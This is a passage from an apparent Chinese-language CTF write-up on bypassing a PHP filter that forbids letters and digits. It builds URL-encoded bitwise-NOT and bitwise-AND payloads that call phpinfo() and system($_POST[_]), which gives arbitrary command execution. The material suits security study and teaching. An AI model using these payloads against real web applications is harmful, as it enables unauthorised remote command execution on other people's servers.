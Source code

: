 回到开头的题目  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-014fa4a0859dd3e274dd5209569e597412d998fc.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-014fa4a0859dd3e274dd5209569e597412d998fc.png)  
这就是很经典的无字母甚至连数字也没有的RCE题目。  
只需要将题目中的正则表达式和目标字符串填入辅助脚本并提交就可以得到构造结果。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6ff7d8cb66c68ad104fa1c29f8efdd081b5080d6.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6ff7d8cb66c68ad104fa1c29f8efdd081b5080d6.png)  
再结合php动态调用特性来构造payload：

```php
(~%8F%97%8F%96%91%99%90)(); // phpinfo();
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0a88ff9071782326e7da8656a94d587d2937cc62.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0a88ff9071782326e7da8656a94d587d2937cc62.png)  
先执行一手`phpinfo`看看disable\_func的过滤情况：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-8f6a8ccd2f7fdcd6b22c179fb58eef8896788a3d.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-8f6a8ccd2f7fdcd6b22c179fb58eef8896788a3d.png)  
没有过滤就起飞了。构造一手`system`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4ca0d5f9e26aa99a99735dc45407e539975f2069.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4ca0d5f9e26aa99a99735dc45407e539975f2069.png)  
和`_POST`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c150d08d18642b182e782c9ed50303302c85111b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c150d08d18642b182e782c9ed50303302c85111b.png)  
再根据动态调用构造payload：

```php
$_=(~%A0%AF%B0%AC%AB);(~%8C%86%8C%8B%9A%92)($$_[_]); // system($_POST[_]);

```

因为payload可能包含一些特殊字符如`=` `&`，所以也需要url编码一下。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a5a8c9950767e04b97bcec32a896c48d636b9641.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a5a8c9950767e04b97bcec32a896c48d636b9641.png)  
这样得到了任意命令执行。

小提示
---

构造结果是由正则表达式和目标字符串决定的，其中有可能出现一些特殊字符影响代码的语义，所以需要根据情况进行调整。  
以本题为例子，选用`&`操作得到的结果进行payload构造

```php
$_=("_%5B_%5B%5C"&amp;"_%D0%CF%D3%D4");(~%8C%86%8C%8B%9A%92)($$_[_]);

```

其中的`=`和`&`需要进行url编码  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2d913f61e44446288748fbc372025c684fb93285.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2d913f61e44446288748fbc372025c684fb93285.png)  
发送后发现没有执行成功。  
调试跟入  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c0f9aa0ed2411fd8153c6f49ea8626151f078d5e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c0f9aa0ed2411fd8153c6f49ea8626151f078d5e.png)  
发现payload中含有`\`字符，影响了代码的语义。  
那么此时可以尝试换一个payload，只需在正则中添加`\`的过滤，然后计算出新payload。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-bd4c626da40f69b9269657ccde5fd3b24b3bc92b.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-bd4c626da40f69b9269657ccde5fd3b24b3bc92b.png)  